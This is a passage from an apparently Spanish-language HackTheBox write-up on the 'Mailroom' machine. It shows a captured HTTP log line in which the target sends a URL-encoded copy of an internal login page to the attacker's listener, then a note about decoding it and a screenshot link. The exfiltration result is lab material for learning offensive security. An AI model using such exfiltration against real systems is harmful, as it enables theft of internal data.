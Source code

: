 10.10.11.209 - - [13/Aug/2023 20:57:05] "GET /?data=%0A%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en%22%3E%0A%0A%3Chead%3E%0A%20%20%3Cmeta%20charset%3D%22utf-8%22%20%2F%3E%0A%20%20%3Cmeta%20name%3D%22viewport%22%20content%3D%22width%3Ddevice-width%2C%20initial-scale%3D1%2C%20shrink-to-fit%3Dno%22%20%2F%3E%0A%20%20%3Cmeta%20name%3D%22description%22%20content%3D%22%22%20%2F%3E%0A%20%20%3Cmeta%20name%3D%22author%22%20content%3D%22%22%20%2F%3E%0A%20%20%3Ctitle%3EInquiry%20Review%20Panel%3C%2Ftitle%3E%0A%20%20%3C!--%20Favicon--%3E%0A%20%20%3Clink%20rel%3D%22icon%22%20type%3D%22image%2Fx-icon%22%20href%3D%22assets%2Ffavicon.ico%22%20%2F%3E%0A%20%20%3C!--%20Bootstrap%20icons--%3E%0A%20%20%3Clink%20href%3D%22font%2Fbootstrap-icons.css%22%20rel%3D%22stylesheet%22%20%2F%3E%0A%20%20%3C!--%20Core%20theme%20CSS%20(includes%20Bootstrap)--%3E%0A%20%20%3Clink%20href%3D%22css%2Fstyles.css%22%20rel%3D%22stylesheet%22%20%2F%3E%0A%3C%2Fhead%3E%0A%0A%3Cbody%3E%0A%20%20%3Cdiv%20class%3D%22wrapper%20fadeInDown%22%3E%0A%20%20%20%20%3Cdiv%20id%3D%22formContent%22%3E%0A%0A%20%20%20%20%20%20%3C!--%20Login%20Form%20--%3E%0A%20%20%20%20%20%20%3Cform%20id%3D%27login-form%27%20method%3D%22POST%22%3E%0A%20%20%20%20%20%20%20%20%3Ch2%3EPanel%20Login%3C%2Fh2%3E%0A%20%20%20%20%20%20%20%20%3Cinput%20required%20type%3D%22text%22%20id%3D%22email%22%20class%3D%22fadeIn%20second%22%20name%3D%22email%22%20placeholder%3D%22Email%22%3E%0A%20%20%20%20%20%20%20%20%3Cinput%20required%20type%3D%22password%22%20id%3D%22password%22%20class%3D%22fadeIn%20third%22%20name%3D%22password%22%20placeholder%3D%22Password%22%3E%0A%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22submit%22%20class%3D%22fadeIn%20fourth%22%20value%3D%22Log%20In%22%3E%0A%20%20%20%20%20%20%20%20%3Cp%20hidden%20id%3D%22message%22%20style%3D%22color%3A%20%238F8F8F%22%3EOnly%20show%20this%20line%20if%20response%20-%20edit%20code%3C%2Fp%3E%0A%20%20%20%20%20%20%3C%2Fform%3E%0A%0A%20%20%20%20%20%20%3C!--%20Remind%20Passowrd%20--%3E%0A%20%20%20%20%20%20%3Cdiv%20id%3D%22formFooter%22%3E%0A%20%20%20%20%20%20%20%20%3Ca%20class%3D%22underlineHover%22%20href%3D%22register.html%22%3ECreate%20an%20account%3C%2Fa%3E%0A%20%20%20%20%20%20%3C%2Fdiv%3E%0A%0A%20%20%20%20%3C%2Fdiv%3E%0A%20%20%3C%2Fdiv%3E%0A%0A%20%20%3C!--%20Bootstrap%20core%20JS--%3E%0A%20%20%3Cscript%20src%3D%22js%2Fbootstrap.bundle.min.js%22%3E%3C%2Fscript%3E%0A%0A%20%20%3C!--%20Login%20Form--%3E%0A%20%20%3Cscript%3E%0A%20%20%20%20%2F%2F%20Get%20the%20form%20element%0A%20%20%20%20const%20form%20%3D%20document.getElementById(%27login-form%27)%3B%0A%0A%20%20%20%20%2F%2F%20Add%20a%20submit%20event%20listener%20to%20the%20form%0A%20%20%20%20form.addEventListener(%27submit%27%2C%20event%20%3D%3E%20%7B%0A%20%20%20%20%20%20%2F%2F%20Prevent%20the%20default%20form%20submission%0A%20%20%20%20%20%20event.preventDefault()%3B%0A%0A%20%20%20%20%20%20%2F%2F%20Send%20a%20POST%20request%20to%20the%20login.php%20script%0A%20%20%20%20%20%20fetch(%27%2Fauth.php%27%2C%20%7B%0A%20%20%20%20%20%20%20%20method%3A%20%27POST%27%2C%0A%20%20%20%20%20%20%20%20body%3A%20new%20URLSearchParams(new%20FormData(form))%2C%0A%20%20%20%20%20%20%20%20headers%3A%20%7B%20%27Content-Type%27%3A%20%27application%2Fx-www-form-urlencoded%27%20%7D%0A%20%20%20%20%20%20%7D).then(response%20%3D%3E%20%7B%0A%20%20%20%20%20%20%20%20return%20response.json()%3B%0A%0A%20%20%20%20%20%20%7D).then(data%20%3D%3E%20%7B%0A%20%20%20%20%20%20%20%20%2F%2F%20Display%20the%20name%20and%20message%20in%20the%20page%0A%20%20%20%20%20%20%20%20document.getElementById(%27message%27).textContent%20%3D%20data.message%3B%0A%20%20%20%20%20%20%20%20document.getElementById(%27password%27).value%20%3D%20%27%27%3B%0A%20%20%20%20%20%20%20%20document.getElementById(%27message%27).removeAttribute(%22hidden%22)%3B%0A%20%20%20%20%20%20%7D).catch(error%20%3D%3E%20%7B%0A%20%20%20%20%20%20%20%20%2F%2F%20Display%20an%20error%20message%0A%20%20%20%20%20%20%20%20%2F%2Falert(%27Error%3A%20%27%20%2B%20error)%3B%0A%20%20%20%20%20%20%7D)%3B%0A%20%20%20%20%7D)%3B%0A%20%20%3C%2Fscript%3E%0A%3C%2Fbody%3E%0A%3C%2Fhtml%3E HTTP/1.1" 200 -
{% endhighlight %}

Al decodificar y verlo desde firefox.

![login](/assets/hackthebox/img/machines/hard/mailroom/login.png)
